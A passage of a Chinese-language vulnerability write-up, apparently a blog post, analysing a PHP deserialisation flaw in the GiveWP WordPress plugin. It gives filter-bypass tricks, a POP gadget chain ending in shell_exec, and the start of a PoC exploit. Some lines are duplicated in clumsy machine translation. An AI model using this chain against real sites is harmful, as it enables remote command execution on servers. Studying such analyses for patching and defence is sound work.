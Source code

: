 ..然后你就可以调试你的wordpress了。  
### 3. 设置PHPSTORM（本地）：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vZZfNxKcwj42Ce815MG9ia76vp75xLtrx285msNYyddmQPH3XGoqXVKe4qor3umwgKkFzWtqrBoicm6Q4yGIACXA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vZZfNxKcwj42Ce815MG9ia76vp75xLtrxTePDeYXPtkGh2KKIeuNeVb8Xd9Xqha3iaCA31rkicI6jvfvawdMibV0Aw/640?wx_fmt=png&from=appmsg "")  
### 4. PHPSTORM示例（例如TCPDF任意文件删除）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vZZfNxKcwj42Ce815MG9ia76vp75xLtrxuickImUlwZqISicJY9Iug1kzCYQkH78GBicNib5s1P8VibQALzwvRxRymYA/640?wx_fmt=png&from=appmsg "")  
# 分析  
## 脆弱点（includes/ payments/class-give- payment.php）  
  
此时，get_meta()函数反序列化之前保存的“give_title”值。  
```
switch ( $key ) {
            case 'title':
              $user_info[ $key ] = Give()->donor_meta->get_meta( $donor->id, '_give_donor_title_prefix', true );
              break;
...
```  
## Bypass 技术  
  
```
strip_tags: replace nullbytes -> using \0
strip_tags：使用 \0 替换空字节 ->
stripslashes_deep: replace backslashes -> using \\\\
stripslashes_deep：使用 \\\\ 替换反斜杠 ->
```  
  
****## POP chaining for RCE RCE 的 POP 链  
  
```
Stripe\StripeObject->__toString()
Stripe\StripeObject->toArray()
Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData->toArray()
Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData->getLegacyBillingAddress()
Give->__get('address1')
给->__get('address1')
\Give\Vendors\Faker\ValidGenerator->get('address1')
\Give\Vendors\Faker\ValidGenerator->get('address1')
\Give\Vendors\Faker\ValidGenerator->__call('get', 'address1')
\Give\Vendors\Faker\ValidGenerator->__call('get', 'address1')
Give\Onboarding\SettingsRepository->get('address1') (Return command string)
Give\Onboarding\SettingsRepository->get('address1')（返回命令字符串）
call_user_func('shell_exec', 'command')
call_user_func('shell_exec', '命令')
PoC.php
<?php
namespace Stripe{
  class StripeObject
  {
    protected $_values;
    public function __construct(){
      $this->_values['foo'] = new \Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData();
    }
  }
}

namespace Give\PaymentGateways\DataTransferObjects{
```